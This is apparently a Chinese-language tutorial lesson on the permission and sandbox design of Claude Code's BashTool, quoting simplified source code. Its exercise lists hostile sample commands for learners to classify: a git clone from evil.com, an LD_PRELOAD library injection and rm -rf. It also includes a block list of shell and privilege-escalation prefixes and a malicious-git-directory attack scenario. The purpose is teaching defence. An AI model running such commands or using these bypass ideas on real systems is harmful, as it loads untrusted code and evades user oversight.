




# 第 4 课：BashTool 深度解析 —— Shell 命令安全执行

> 🎯 本课目标：理解 Claude Code 中最复杂的工具——BashTool 的安全执行架构

---

## 学习目标

1. 理解 BashTool 的整体架构和模块划分
2. 掌握命令安全检查的多层防御机制
3. 了解 AST 解析与传统正则检查的对比
4. 理解超时管理和后台任务机制
5. 掌握命令分类：只读 vs 写入 vs 危险

---

## 1. 生活类比：银行的安全柜台

BashTool 就像银行的一个特殊柜台——客户（AI）可以在这里办理几乎任何业务（执行任意 Shell 命令），但每笔业务都要经过多重安全检查：

- **身份核实**（输入验证）：你是谁？你要做什么？
- **风险评估**（命令分析）：这个操作安全吗？
- **授权审批**（权限检查）：你有权限做这个吗？
- **实时监控**（超时管理）：操作太久了，自动终止
- **沙箱隔离**（Sandbox）：在安全环境中执行

---

## 2. BashTool 模块地图



---

## 3. 输入参数与命令解析

### 输入 Schema

BashTool 的输入看似简单，但 `command` 字段背后的处理极其复杂：

```typescript
// 简化的输入定义
z.object({
  command: z.string().describe('要执行的 Shell 命令'),
  timeout: z.number().optional().describe('超时时间（毫秒）'),
  run_in_background: z.boolean().optional().describe('后台执行'),
})
```

### 命令分类体系

```typescript
// 源码: BashTool.tsx (第 60-81 行)
// 搜索类命令——可折叠显示
const BASH_SEARCH_COMMANDS = new Set([
  'find', 'grep', 'rg', 'ag', 'ack', 'locate', 'which', 'whereis'
])

// 读取类命令——可折叠显示
const BASH_READ_COMMANDS = new Set([
  'cat', 'head', 'tail', 'less', 'more',
  'wc', 'stat', 'file', 'strings',
  'jq', 'awk', 'cut', 'sort', 'uniq', 'tr'
])

// 目录列表命令
const BASH_LIST_COMMANDS = new Set(['ls', 'tree', 'du'])

// 静默命令（成功时无输出）
const BASH_SILENT_COMMANDS = new Set([
  'mv', 'cp', 'rm', 'mkdir', 'rmdir',
  'chmod', 'chown', 'touch', 'ln', 'cd'
])
```

---

## 4. 安全检查的多层防御



### 第 1 层：AST 解析

Claude Code 使用 tree-sitter 解析 bash 命令的 AST（抽象语法树）：

```typescript
// 源码: bashPermissions.ts (第 1688-1695 行) - 简化
let astRoot = await parseCommandRaw(input.command)
let astResult = astRoot
  ? parseForSecurityFromAst(input.command, astRoot)
  : { kind: 'parse-unavailable' }
```

AST 解析的三种结果：
- **`simple`**：命令结构清晰，可以安全分析
- **`too-complex`**：含有命令替换、扩展等复杂结构，需要用户确认
- **`parse-unavailable`**：tree-sitter 不可用，回退到传统检查

### 第 2 层：安全包装器剥离

```typescript
// 源码: bashPermissions.ts (第 524 行) - 简化
export function stripSafeWrappers(command: string): string {
  // 剥离安全的包装命令：
  // - timeout 10 npm install → npm install
  // - time npm install → npm install
  // - nohup npm install → npm install
  // - NODE_ENV=prod npm run build → npm run build
}
```

**安全环境变量白名单**：

```typescript
// 源码: bashPermissions.ts (第 378-430 行)
const SAFE_ENV_VARS = new Set([
  'NODE_ENV',      // Node 环境名
  'RUST_LOG',      // Rust 日志级别
  'GO111MODULE',   // Go 模块模式
  'NO_COLOR',      // 禁用颜色
  'TERM',          // 终端类型
  // ... 更多安全变量
])
```

> ⚠️ 这些环境变量被认为是安全的，因为它们**不能执行代码**或**加载库**。注释中明确标注了不能加入白名单的变量：`PATH`、`LD_PRELOAD`、`PYTHONPATH`、`NODE_OPTIONS` 等。

### 第 3 层：子命令分割与逐一检查

复合命令（如 `cd src && npm install && npm test`）会被分割成子命令，每个子命令单独检查：

```typescript
// 源码: bashPermissions.ts (第 2146-2157 行) - 简化
const rawSubcommands = astSubcommands ?? splitCommand(input.command)
// 过滤掉 cd ${cwd} 这样的无害前缀
const { subcommands } = filterCdCwdSubcommands(rawSubcommands, ...)

// 对每个子命令检查权限
const subcommandPermissionDecisions = subcommands.map((command) =>
  bashToolCheckPermission({ command }, toolPermissionContext, ...)
)
```

---

## 5. 权限检查的优先级



**源码证据**：

```typescript
// 源码: bashPermissions.ts (第 1050-1178 行) - bashToolCheckPermission
// 1. 精确匹配
const exactMatchResult = bashToolCheckExactMatchPermission(input, ...)
if (exactMatchResult.behavior === 'deny' || ...) return exactMatchResult

// 2. 前缀/通配符匹配
const { matchingDenyRules, matchingAskRules, matchingAllowRules } =
  matchingRulesForInput(input, ..., 'prefix')
if (matchingDenyRules[0]) return { behavior: 'deny', ... }

// 3. 路径约束
const pathResult = checkPathConstraints(input, getCwd(), ...)
if (pathResult.behavior !== 'passthrough') return pathResult

// 5+6. 模式和只读检查
const modeResult = checkPermissionMode(input, ...)
if (BashTool.isReadOnly(input)) return { behavior: 'allow', ... }
```

---

## 6. 沙箱机制

```typescript
// 源码: bashPermissions.ts (第 1831-1843 行)
if (
  SandboxManager.isSandboxingEnabled() &&
  SandboxManager.isAutoAllowBashIfSandboxedEnabled() &&
  shouldUseSandbox(input)
) {
  // 在沙箱中自动允许（仍然检查 deny/ask 规则）
  const result = checkSandboxAutoAllow(input, ...)
}
```

沙箱模式下，命令在隔离环境中执行，因此可以自动允许大部分命令。但**显式 deny 规则仍然生效**。

---

## 7. 超时与后台执行

```typescript
// 源码: BashTool.tsx (第 53-57 行)
const PROGRESS_THRESHOLD_MS = 2000  // 2 秒后显示进度
const ASSISTANT_BLOCKING_BUDGET_MS = 15_000  // 15 秒后自动后台化

// 默认超时和最大超时由配置决定
export function getDefaultTimeoutMs(): number { ... }
export function getMaxTimeoutMs(): number { ... }
```

**执行流程**：



---

## 8. 命令安全拦截示例

### 危险的 cd + git 组合

```typescript
// 源码: bashPermissions.ts (第 2208-2225 行)
// 阻止 cd 到恶意目录后执行 git
// 攻击场景：cd /malicious/dir && git status
// 恶意目录可能包含带 core.fsmonitor 的裸仓库
if (compoundCommandHasCd) {
  const hasGitCommand = subcommands.some(cmd =>
    isNormalizedGitCommand(cmd.trim()),
  )
  if (hasGitCommand) {
    return { behavior: 'ask', ... }
  }
}
```

### 子命令数量上限

```typescript
// 源码: bashPermissions.ts (第 103 行)
export const MAX_SUBCOMMANDS_FOR_SECURITY_CHECK = 50
```

超过 50 个子命令时，直接要求用户确认，防止 DoS 攻击。

### 危险 Shell 前缀黑名单

```typescript
// 源码: bashPermissions.ts (第 196-226 行)
const BARE_SHELL_PREFIXES = new Set([
  'sh', 'bash', 'zsh', 'fish',  // 直接启动 shell
  'env', 'xargs',                // 包装执行
  'sudo', 'doas',                // 提权
  'nice', 'nohup', 'timeout',   // 可绕过安全检查
])
```

这些前缀不会被建议为权限规则，因为 `Bash(bash:*)` 约等于 `Bash(*)`。

---

## 9. isReadOnly 判断逻辑

```typescript
// 源码: BashTool.tsx (第 95-120 行) - 简化
export function isSearchOrReadBashCommand(command: string): {
  isSearch: boolean
  isRead: boolean
  isList: boolean
} {
  // 将命令分割为操作符连接的部分
  const parts = splitCommandWithOperators(command)

  // 所有部分都必须是搜索/读取命令
  for (const part of parts) {
    const baseCmd = getBaseCommand(part)
    if (BASH_SEARCH_COMMANDS.has(baseCmd)) hasSearch = true
    else if (BASH_READ_COMMANDS.has(baseCmd)) hasRead = true
    else if (BASH_LIST_COMMANDS.has(baseCmd)) hasList = true
    else if (BASH_SEMANTIC_NEUTRAL_COMMANDS.has(baseCmd)) continue
    else return { isSearch: false, isRead: false, isList: false }
  }
}
```

> 📌 关键点：管道中的**所有**部分都必须是只读命令，整个命令才被视为只读。`ls -la | grep foo` 是只读的，但 `ls -la | tee output.txt` 不是。

---

## 动手练习

### 练习 1：安全分析

分析以下命令，判断 BashTool 会如何处理它们（allow/ask/deny）：

1. `cat package.json`
2. `rm -rf node_modules`
3. `cd /tmp && git clone https://evil.com/repo`
4. `NODE_ENV=production npm run build`
5. `timeout 30 npm test`
6. `LD_PRELOAD=/tmp/evil.so ls`

### 练习 2：权限规则设计

如果你想让 AI 自动运行所有 `npm` 和 `yarn` 命令，但禁止 `rm` 命令，需要配置哪些权限规则？

### 练习 3：思考题

1. 为什么 `stripSafeWrappers` 不剥离 `sudo`？
2. tree-sitter AST 解析比正则表达式安全检查有什么优势？
3. 为什么 `cd + git` 组合要特别处理？

---

## 本课小结

| 要点 | 说明 |
|------|------|
| 多层防御 | AST → 沙箱 → 规则 → 路径 → 模式 → 只读 |
| 命令分类 | 搜索/读取/列表/静默/语义中性 |
| 安全白名单 | 环境变量和包装器命令的白名单机制 |
| 超时管理 | 默认超时 + 自动后台化 |
| 子命令检查 | 复合命令逐一检查每个子命令 |

---

## 下节预告

第 5 课我们将学习 **FileReadTool** 和 **FileEditTool** 这对文件操作搭档。你会看到 Claude Code 如何安全地读取各种格式的文件（文本、图片、PDF、Notebook），以及如何实现"先读后改"的编辑安全模型。

> 📖 预习建议：阅读 `tools/FileReadTool/FileReadTool.ts` 和 `tools/FileEditTool/FileEditTool.ts` 的 `call()` 方法。
